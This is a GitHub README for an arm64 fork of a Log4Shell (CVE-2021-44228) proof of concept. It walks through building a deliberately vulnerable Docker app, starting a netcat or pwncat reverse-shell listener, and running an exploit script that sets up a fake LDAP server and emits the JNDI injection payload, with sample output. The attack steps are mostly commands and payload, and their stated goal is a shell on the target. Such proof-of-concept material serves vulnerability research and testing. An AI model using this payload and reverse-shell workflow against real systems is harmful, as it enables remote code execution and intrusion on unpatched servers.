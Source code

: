 # log4j-shell-poc-arm64v8
This is a fork optimized for arm64/v8 systems from [log4j-shell-poc](https://github.com/teimichael/log4j-shell-poc), a Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability.

## Technical Report
https://github.com/yepengding/log4j-shell-poc-arm64v8/blob/main/ExploitingJNDI.pdf

## Workflow
### Set Java Environment
- Download `jdk-8u60-linux-arm64-vfp-hflt.tar.gz` from [Oracle archives](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html)
- Run
```
tar -xf jdk-8u60-linux-x64.tar.gz
```

### Set Python Environment
```
pip install -r requirements.txt
```

### Build Vulnerable App
```c
docker build -t log4j-shell-poc .
```

### Run Vulnerable App
```c
docker run --network host --name poc log4j-shell-poc
```

### Exploit Vulnerable App

* Start a netcat listener to accept reverse shell connection.
```py
nc -lvnp 9001
```

Or start [pwncat](https://github.com/calebstewart/pwncat)
```py
python3 -m pwncat -lp 9001 -m linux
```

* Launch the exploit.
```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

Disclaimer
-
This repository is not intended to be a one-click exploit to CVE-2021-44228.
